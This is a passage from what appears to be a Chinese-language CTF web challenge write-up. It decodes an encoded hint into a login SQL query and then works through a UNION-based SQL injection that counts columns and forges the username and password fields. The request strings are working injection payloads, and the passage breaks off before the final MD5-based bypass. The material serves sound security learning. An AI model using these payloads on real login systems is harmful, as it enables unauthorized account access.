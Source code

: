 <img src="/images/buuctf-web/image-20221017200430122.png" alt="image-20221017200430122" style="zoom:67%;" />

这段字符比较像`base32`编码后的形态,将其使用`base`32解码得到:

```
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw==
```

这显然是`base64`了,继续解码得到查询语句:

```
select * from user where username = '$name'
```

这里注入点在`name`上, 这里没有将`name`和`password`一起查询,那么应该是先通过`name`查询到对应的结果,将其中的`password`和用户输入的`password`相比较. 这里`select *`会返回相应用户名的所有数据

**那么可以使得`select * from user where username = '$name'`的结果为空,然后后面附加上`union select`**

**这样整条查询语句的结果就是`union select`的结果,那么验证密码时就会错误地把`union select`对应位置上的值当成密码**

先测试`select *`结果的字段数:

```
name=1' union select 1,2#&pw=123
返回:Error: The used SELECT statements have a different number of columns
name=1' union select 1,2,3#&pw=123
返回:wrong user!
这里说明结果有三列
```

下面测试用户名在这三列中的哪个位置:(因为整个`union select`的结果都是伪造的,所以这里`admin`换成别的什么也一样)

```
name=1' union select 1,'admin',3#&pw=123
返回:wrong pass!
说明用户名在第二个位置
```

那么尝试把密码也加上:

```
name=1' union select 1,'admin','admin'#&pw=admin
返回:wrong pass!
这里并没有起作用,考虑一下密码经常用md5的形式存储,并且在密码中输入类似admin' 时也不会报错,那么应该是对用户输入的密码进行了md5处理.
```
